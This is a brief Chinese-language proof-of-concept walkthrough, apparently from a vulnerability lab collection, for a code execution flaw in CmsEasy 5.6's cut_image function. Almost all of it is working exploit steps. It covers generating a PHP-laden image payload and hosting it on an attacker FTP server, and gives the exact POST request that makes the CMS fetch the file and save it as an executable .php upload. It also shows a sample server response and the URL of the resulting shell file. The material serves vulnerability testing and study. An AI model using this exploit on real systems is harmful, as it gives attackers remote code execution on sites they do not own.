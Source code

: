## CmsEasy 5.6  cut_image 代码执行漏洞

- payload生成

  使用生成脚本jpg_payload.php生成payload，或直接使用已生成的poc_phpinfo_700x1120.png

  ​

- 漏洞测试

  将生成的payload上传至攻击者的ftp服务器，并发起 POST 请求，地址为：

  ```
  http://127.0.0.1/index.php?case=tool&act=cut_image
  ```

  POST data:

  ```
  pic=1ftp://攻击者FTP地址/phpinfo.php&w=700&h=1120&x1=0&x2=700&y1=0&y2=1120
  ```

  成功会返回如下形式的数据：

  ```
  {"code":"\r\n \/\/$('#cut_preview').attr('src','\/upload\/images\/201612\/148159258747.php');\r\n $('#thumb').val('\/upload\/images\/201612\/148159258747.php');\r\n\t\t\t\t alert(lang('save_success'));\r\n "}
  ```

  根据返回的文件名，访问上传成功后的php文件

  `http://127.0.0.1/upload/images/201612/148159258747.php`

  ​

- 详细POC参考：

  https://github.com/Medicean/VulApps/tree/master/c/cmseasy/1

  https://xz.aliyun.com/t/416

  https://xz.aliyun.com/t/365

